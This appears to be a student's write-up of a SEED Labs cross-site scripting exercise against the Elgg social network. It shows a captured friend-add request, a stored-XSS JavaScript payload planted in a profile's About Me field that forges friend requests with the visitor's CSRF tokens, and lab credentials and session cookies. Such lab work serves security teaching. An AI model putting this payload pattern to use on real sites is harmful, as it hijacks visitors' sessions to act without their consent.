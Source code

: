 ## Task 4

- Alice has no friends yet.
![](https://i.imgur.com/ExLpubo.png)
- Login as `boby` with the password `seedboby`.
- Add `samy` as a friend normally sends the following request:
    ```
    http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1641922817&__elgg_token=FIp1aPq5bx91NGMRNVuHmg&__elgg_ts=1641922817&__elgg_token=FIp1aPq5bx91NGMRNVuHmg
    Host: www.seed-server.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    X-Requested-With: XMLHttpRequest
    Connection: keep-alive
    Referer: http://www.seed-server.com/profile/samy
    Cookie: Elgg=nui97q6vko3d1nbt39brl5bace

    GET: HTTP/1.1 200 OK
    Date: Tue, 11 Jan 2022 17:40:22 GMT
    Server: Apache/2.4.41 (Ubuntu)
    Cache-Control: must-revalidate, no-cache, no-store, private
    expires: Thu, 19 Nov 1981 08:52:00 GMT
    pragma: no-cache
    x-content-type-options: nosniff
    Vary: User-Agent
    Content-Length: 386
    Keep-Alive: timeout=5, max=89
    Connection: Keep-Alive
    Content-Type: application/json; charset=UTF-8
    ```
    - The base url for the send friend request action is `www.seed-server.com/action/friends/add`
    - To add `samy` as a friend, the request needs to have the `friend` parameter set to `59`
- Login as `samy` with the password `seedsamy`.
- Edit Samy's profile and insert the following Javascript code in the About Me field (editor mode):
```javascript
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        // Construct the HTTP request to add Samy as a friend.
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
        // Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```
- Visit Samy's profile as Alice, the following request is sent:
```
http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1641923707&__elgg_token=FB8-JiZqRisFNk_HV2P1Yg
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://www.seed-server.com/profile/samy
Cookie: Elgg=7p39f9jt9i6vorjrnpgb8gq8g7
```